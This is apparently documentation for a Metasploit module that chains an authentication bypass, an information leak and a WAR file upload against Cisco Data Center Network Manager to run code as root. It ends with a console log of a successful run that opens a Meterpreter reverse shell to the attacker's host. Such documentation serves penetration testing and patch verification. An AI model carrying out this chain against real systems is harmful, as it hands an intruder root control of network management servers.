 ## Vulnerable Application

Cisco Data Center Network Manager exposes a file upload servlet (FileUploadServlet) at /fm/fileUpload.
An authenticated user can abuse this servlet to upload a WAR to the Apache Tomcat webapps
directory and achieve remote code execution as root.

This module exploits two other vulnerabilities, CVE-2019-1619 for authentication bypass on
versions 10.4(2) and below, and CVE-2019-1622 (information disclosure) to obtain the correct
directory for the WAR file upload.

The module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why).

## Scenarios

Setup RHOST, LHOST, LPORT, run it and sit back!

```
[*] Started reverse TCP handler on 10.75.1.1:4444
[+] 10.75.1.40:443 - Detected DCNM 11.1(1)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Obtain WAR path from logs: /usr/local/cisco/dcm/wildfly-10.1.0.Final/standalone/sandeployments
[*] 10.75.1.40:443 - Uploading payload...
[+] 10.75.1.40:443 - WAR uploaded, waiting a few seconds for deployment...
[*] 10.75.1.40:443 - Executing payload...
[*] Sending stage (53867 bytes) to 10.75.1.40
[*] Meterpreter session 1 opened (10.75.1.1:4444 -> 10.75.1.40:60592) at 2019-08-29 12:41:49 +0700

meterpreter > getuid
Server username: root
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 10.75.1.40 - Meterpreter session 1 closed.  Reason: User exit
```
